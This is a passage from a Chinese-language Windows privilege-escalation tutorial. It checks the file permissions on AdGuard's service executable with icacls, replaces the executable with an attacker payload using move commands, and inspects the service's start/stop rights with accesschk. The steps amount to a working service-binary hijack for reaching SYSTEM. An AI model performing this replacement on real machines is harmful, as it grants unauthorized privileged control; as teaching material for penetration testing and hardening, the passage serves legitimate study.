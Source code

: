 icacls 也可以查询权限，而且自带应用，不需要上传到目标系统。

```plaintext
E:\Downloads>icacls D:\\AdGuard\\AdguardSvc.exe
D:\\AdGuard\\AdguardSvc.exe BUILTIN\Administrators:(I)(F)
                            NT AUTHORITY\SYSTEM:(I)(F)
                            NT AUTHORITY\Authenticated Users:(I)(M)
                            BUILTIN\Users:(I)(RX)
```

F 代表 Full Control 完整控制权限，R 只有读取权限，W 只有写入权限，RX 读取和执行权限，M 能够读取并拥有修改权限，I 则表示权限继承自父目录。更多权限见文档 [icacls - remarks](https://learn.microsoft.com/zh-cn/windows-server/administration/windows-commands/icacls#remarks)。

来解读下这些去权限什么意思：

-   BUILTIN\\Administrators 当前机器内置管理员组有全部权限
-   NT AUTHORITY\\SYSTEM 用户 SYSTEM 有完整权限
-   NT AUTHORITY\\Authenticated Users 认证过的用户修改权限
-   BUILTIN\\Users 系统内置普通用户组有读和执行权限。

确认有权限先备份原有应用。

```plaintext
E:\Downloads>move D:\\AdGuard\\AdguardSvc.exe  D:\AdGuard\AdguardSvc_back.exe
移动了         1 个文件。
```

将 Payload 移动到指定目录。

```plaintext
E:\Downloads>move E:\Desktop\AdguardSvc.exe D:\AdGuard\AdguardSvc.exe
移动了         1 个文件。
```

需要注意，让服务重启上线，只有 SYSTEM 用户和 Administrator 组内用户才能执行停止、启动服务，具体权限详情可以通过 Process Hacker 查询。这里就用 accesschk 查服务权限。

```plaintext
PS C:\Users\gbb> E:\Downloads\accesschk64.exe /accepteula -nobanner -lc "Adguard Service"
Adguard Service
  DESCRIPTOR FLAGS:
      [SE_DACL_PRESENT]
      [SE_SACL_PRESENT]
      [SE_SELF_RELATIVE]
  OWNER: NT AUTHORITY\SYSTEM
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [1] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  [2] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\INTERACTIVE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [3] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SERVICE
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
```